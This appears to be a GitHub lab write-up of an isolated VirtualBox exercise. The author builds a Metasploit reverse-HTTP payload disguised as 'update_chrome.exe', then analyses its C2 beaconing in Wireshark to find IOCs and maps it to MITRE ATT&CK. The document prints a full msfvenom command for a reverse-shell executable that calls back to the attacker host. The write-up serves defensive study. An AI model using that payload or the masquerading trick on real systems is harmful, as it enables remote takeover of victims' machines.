





# C2 Beaconing Analysis & Network Threat Hunting


## Executive Summary
This project simulates the deployment of a Command and Control (C2) infrastructure to analyze the network behavior of a reverse shell payload.
The objective was to establish a C2 session between an attacker and a victim, capture the network traffic, and perform a deep-packet analysis to identify **Beaconing patterns** and **Indicators of Compromise (IOCs)**.
This lab demonstrates proficiency in Network Forensics, specifically:
* Malware weaponization and delivery techniques.
* C2 infrastructure configuration (Metasploit).
* Traffic Analysis via Wireshark (HTTP Streams & Timing).
* Identification of periodic communication patterns (Beaconing).

## Lab Architecture & Specifications
The environment was hosted on a Type 2 Hypervisor (VirtualBox) with a dedicated NAT Network (10.0.10.0/24) to simulate an isolated compromise scenario.

### Host Machine
* **Processor:** AMD Ryzen 9 5900HX (3.30 GHz)
* **RAM:** 32 GB

### Virtual Machines
| Role | OS | Resources | Function |
| :--- | :--- | :--- | :--- |
| **Attacker** | Kali Linux (Rolling 2025.2) | 4 vCPU, 4 GB RAM | C2 Server (Metasploit), Payload Generation, Handler |
| **Victim** | Windows 10 Pro | 2 vCPU, 4 GB RAM | Target workstation, infected with Reverse HTTP payload |

**Network Configuration:** A "Homelab" NAT Network allows strict isolation while enabling C2 communication between `10.0.10.3` (Attacker) and `10.0.10.4` (Victim).

---

## Phase 1: Weaponization & Infrastructure
### 1. Payload Generation
I utilized `msfvenom` to generate a **stageless** reverse HTTP payload. This payload establishes a connection back to the C2 server over port 8080.
* **Payload:** `windows/x64/meterpreter_reverse_http`
* **Masquerading:** The artifact was named `update_chrome.exe` to simulate a legitimate browser update.

```bash
msfvenom -p windows/x64/meterpreter_reverse_http LHOST=10.0.10.3 LPORT=8080 -f exe -o update_chrome.exe
```

### 2. Delivery Mechanism
To simulate the payload delivery, I spun up a temporary Python HTTP server on port 8000, allowing the victim machine to download the malicious binary.

> 

---

## Phase 2: C2 Connection & Execution
### 1. Listener Setup
On the attacker machine, I configured the Metasploit `multi/handler` to listen for the incoming callback.
* **LHOST:** 10.0.10.3
* **LPORT:** 8080
* **Protocol:** HTTP (chosen over HTTPS to allow clear-text traffic analysis for educational purposes).

> 

### 2. Execution & Session Establishment
Upon execution of `update_chrome.exe` on the victim machine, a Meterpreter session was successfully established. The logs confirmed the redirection of a **stageless connection**, indicating the full payload was embedded in the executable.

> 

### 3. Modifying Beaconing Interval
To generate specific traffic artifacts, I issued the `sleep 5` command to modify the beaconing interval. However, as seen in the logs, the initial session was terminated and immediately re-established (Session 2), which likely reset the configuration to the default connection speed.

> 

**Note:** While `sleep 5` was executed, the immediate session restart (Session 1 closed -> Session 2 opened) suggests the payload might have crashed or re-initialized, reverting the sleep timer to its default interactive value. This highlights the importance of verifying configuration changes in the actual traffic logs (Wireshark) rather than trusting the C2 console output blindly.

---

## Phase 3: Network Traffic Analysis (Forensics)
### 1. Beaconing Detection
Using Wireshark, I captured the traffic on the Ethernet interface. Filtering for the C2 server's IP (`ip.addr == 10.0.10.3`), I observed a distinct, rhythmic pattern of communication.
The captured packets show repetitive HTTP GET requests occurring at rapid intervals (ranging between ~1.8s and 2.5s). Despite the attempted configuration change, the traffic exhibits a 'high-frequency' heartbeat, typical of an interactive C2 session or a configuration reset.

> 

### 2. HTTP Stream & Header Analysis
Followed the TCP Stream to inspect the payload content.
**Key Findings (IOCs):**
* **URI:** The request paths were long, random alphanumeric strings (e.g., `/NXmB4wz...`), which is highly anomalous for legitimate web traffic.
* **User-Agent:** `Mozilla/5.0 ... (KHTML, like Gecko) Chrome/131.0.0.0...` (The malware attempts to blend in, but the context of the traffic reveals its nature).
* **Server Response:** The C2 server identified itself as "Apache" but returned `Content-Type: application/octet-stream` with an empty body, typical of a C2 heartbeat acknowledgement.

> 

---

## MITRE ATT&CK Mapping

| Tactic | ID | Technique | Procedure |
| :--- | :--- | :--- | :--- |
| **Resource Development** | T1588.002 | Obtain Capabilities: Tool | Using `msfvenom` to generate the malicious payload. |
| **Execution** | T1204.002 | User Execution: Malicious File | Victim manually executing `update_chrome.exe`. |
| **Command and Control** | T1071.001 | Application Layer Protocol: Web Protocols | Using HTTP (Port 8080) for C2 communication. |
| **Defense Evasion** | T1036.005 | Masquerading: Match Legitimate Name or Location | Naming the malware `update_chrome.exe` to appear benign. |

## Key Takeaways
* **Beaconing & Jitter:** The captured traffic showed intervals fluctuating between 1.8s and 2.5s. In a real-world scenario, this unintentional irregularity acts similarly to "Jitter," making detection based purely on fixed time deltas more challenging. It reinforces the need to analyze the content (Headers/Size) alongside the timing.
* **Header Anomalies:** Even when using standard ports (80/8080), the *content* of the HTTP headers (weird URIs, mismatching Content-Types) often betrays the presence of a C2 channel.
* **Importance of SSL/TLS:** This analysis was possible because the payload used HTTP. In a real-world scenario, attackers use HTTPS (Port 443), requiring SSL inspection or JA3 fingerprinting to detect.
